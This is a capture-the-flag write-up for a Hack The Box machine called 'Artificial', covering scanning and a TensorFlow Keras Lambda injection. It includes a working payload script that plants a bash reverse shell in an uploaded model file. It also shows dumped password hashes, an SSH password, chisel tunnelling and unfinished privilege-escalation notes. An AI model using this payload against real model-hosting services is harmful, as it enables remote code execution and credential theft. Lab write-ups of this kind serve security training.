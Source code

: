 ```yaml
---
hidden: true
---
```


# Artificial

## Machine Info





## Port Scanning

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt 10.10.11.74

Nmap scan report for 10.10.11.74
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```



## Web Enumeration

Change the /etc/hosts file to allow the visualization of the web page.

```bash
sudo nano /etc/hosts

10.10.11.74     artificial.htb
```

Registering to the website we'll moving to upload file page login.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Tensorflow-cpu 2.13.1 RCE vulnerability

If we read the requirements document, it indicate that for create the model we have to use `tensorflow-cpu==2.13.1` .&#x20;

Searching online we have a PoC of Code Injection vulnerability in this version of Tensorflow.

{% embed url="https://github.com/tensorflow/tensorflow/issues/82214" %}

Now which we are in, craft the payload with Github code and add a simple reverse shell.

{% code title="craft_payload.py" %}
```python
import tensorflow as tf

def exploit(x):
  import os
  os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.109/9009 0>&1'")
  return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile(optimizer='adam', loss='mse')
model.save("model.h5")
```
{% endcode %}

Try to build a docker environment provide by the website:

```bash
sudo docker build -t dev_env .
sudo docker run -it --rm -v $(pwd):/code dev_env
```

Then, run the script inside a docker environment

```bash
python3 craft_payload.py
```

This script will create `model.h5` file, that is the model with the payload inside.

THEN THE PAYLOAD WAS CREATE, start a listener

```bash
penelope
listeners add 10.10.14.109 9009
```

Now upload the model on website and press "View Predictions" to execute it by the server.

<figure><img src="../../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

And we have shell

<figure><img src="../../../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation to User

```bash
cp /usr/share/peass/linpeas/linpeas.sh . 

./linpeas.sh
```



### Juicy file

```bash
sqlite3 users.db

SELECT * FROM user;

#output
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0

```



<figure><img src="../../../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

### User.flag

Now with the password, we can gain access vie SSH with gael user

```bash
ssh gael@10.10.11.74
> mattp005numbertwo
```

Print the user flag

```bash
cat user.txt
```

## Privilege Escalation to Root



### Port Forwarding without SSH password

```bash
# attacker machine
# start the chisel server
apt install chisel
chisel server --port 8000 -reverse

# get chisel for linux client
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_386.gz
gzip -d chisel_1.10.1_linux_386.gz
python3 -m http.server 8080

# attacker machine
wget http://10.10.14.109:8880/chisel_1.10.1_linux_386
chmod +x chisel_1.10.1_linux_386
./chmod +x chisel_1.10.1_linux_386 
./chisel_1.10.1_linux_386 client 10.10.14.109:8000 R:8989:127.0.0.1:8989


```





```
sqlite3 /home/app/app/instance/users.db

cd /etc/lvm/backup

/opt/backrest/backrest
/opt/backrest/install.sh

/usr/share/openssh/sshd_config 
```

SUID

```
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd                                                            
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                                                             
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                  
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 467K Apr 11 12:16 /usr/lib/openssh/ssh-keysign

```

Local hosted port

```
tcp       50      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      814/python3                         
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```
